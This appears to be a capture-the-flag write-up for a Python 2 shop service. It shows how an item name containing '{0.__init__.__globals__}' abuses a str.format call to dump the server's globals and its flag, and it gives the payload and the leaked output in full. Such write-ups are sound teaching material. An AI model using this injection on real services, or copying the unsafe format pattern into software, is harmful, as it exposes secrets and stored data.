

# SNT DCR SHP

> Santa has opened a new decoration shop in place of the corner store. Will it be able to dominate the market or will it fall victim to hackers?
>
> Remote server: nc challs.xmas.htsp.ro 13001



# Analysis

First start by using netcat to connect to the given address:

```
$ nc challs.xmas.htsp.ro 13001
           ___
         /`   `'.
        /   _..---;
        |  /__..._/  .--.-.
        |.'  e e | ___\_|/____
       (_)'--.o.--|    | |    |
      .-( `-' = `-|____| |____|
     /  (         |____   ____|
     |   (        |_   | |  __|
     |    '-.--';/'/__ | | (  `|
     |      '.   \    )"";--`\ /
     \        ;   |--'    `;.-'
     |`-.__ ..-'--'`;..--'`

SANTA's Decoration shop yay!
1. Add new decoration to the shopping list
2. View your shopping list
3. Ask Santa for a suggestion
Your choice:
```

Selecting `1` gives you a prompt:

```
Your choice: 1
What item do you like to buy? Cookies
How many of those? 10
Thank you, your items will be added
```

Then picking `2` will list out your items:

```
Your choice: 2
10 x ... Cookies
```

Lastly picking `3` will give you the Python code for the server:

```
Santa shows you how his shop works to prove that he doesn't scam you!
<contents of files/server.py here>
```

Firstly, you'll see the flag is sitting around as a global variable:

```
from secret import flag
```

You'll notice what appears to be a red herring:

```
sys.stdout.write ("What item do you like to buy? ")
sys.stdout.flush ()
type = sys.stdin.readline ().strip ()

sys.stdout.write ("How many of those? ")
sys.stdout.flush ()
quantity = sys.stdin.readline ().strip () # Too lazy to sanitize this
```

The real problem is a `format()` string exploit:

```
def print_decoration(self):
    print ('{0.quantity} x ... '+ self.type).format(self)
```

Note that it's giving us control over the format string. This means we can
craft malicious things that inspect `self` which actually gives us access
to much more than just the `type` and `quantity` member variables. We can
add to our list an item like:

```
{0.__init__.__globals__}
```

This only works for Python 2.x which is what the server is running. Originally
I tried to solve this using Python 3.x locally and had a hard time. The quantity
you provide doesn't matter, once you enter the payload you pick option `2` and
list out your items:

```
1 x ... {'Decoration': <class '__main__.Decoration'>, 'leak_source_code': <function leak_source_code at 0x7fbf2a40f6e0>, '__builtins__': <module '__builtin__' (built-in)>, 'items': [<__main__.Decoration object at 0x7fbf2a409e90>], '__file__': '/chall/server.py', '__package__': None, 'sys': <module 'sys' (built-in)>, 'add_item': <function add_item at 0x7fbf2a40f848>, 'flag': 'X-MAS{C_15n7_th3_0nly_vuln3rabl3_l4nngu4g3_t0_f0rm47_57r1ng5}', 'menu': <function menu at 0x7fbf2a40f668>, '__name__': '__main__', 'show_items': <function show_items at 0x7fbf2a40f8c0>, 'choice': '2', 'os': <module 'os' from '/usr/lib/python2.7/os.pyc'>, '__doc__': None}
```
